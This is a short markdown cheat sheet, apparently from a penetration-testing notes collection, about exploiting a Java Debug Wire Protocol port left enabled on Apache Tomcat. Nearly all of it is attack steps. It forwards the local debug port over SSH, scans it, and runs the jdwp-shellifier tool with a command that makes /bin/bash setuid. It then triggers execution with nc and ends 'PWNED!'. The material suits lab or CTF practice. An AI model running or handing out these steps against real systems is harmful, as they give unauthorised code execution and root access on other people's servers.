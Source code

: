 ### Java Debug Wire Protocol (JDWP) Remote Code Execution

### REQUIREMENTS: The apache tomcat server has the debugging enabled: jdwp=transport=dt_socket,address=localhost:8000,server=y

### Tools: https://github.com/IOActive/jdwp-shellifier

### STEPS:

#### 1) ss -tulpn (Verify that the debug service is running on the target machine on port 8000 and 8005 tomcat service)

#### 2) ssh -L 8888:127.0.0.1:8000 USER@TARGET_IP (If the service runs locally, do local port forwarding to have access to the service)

#### 3) sudo nmap -sC -sV -p 8888 127.0.0.1 (Verify that you have access to the service)

#### 4) Download the exploit

#### 5) python2 jdwp-shellifier.py -t 127.0.0.1 -p 8888 --cmd 'chmod u+s /bin/bash' (Run the exploit)

#### 6) Target session: nc localhost 8005 (Trigger a connection on target ssh session AFTER you run the exploit to trigger the RCE)

#### 7) PWNED!
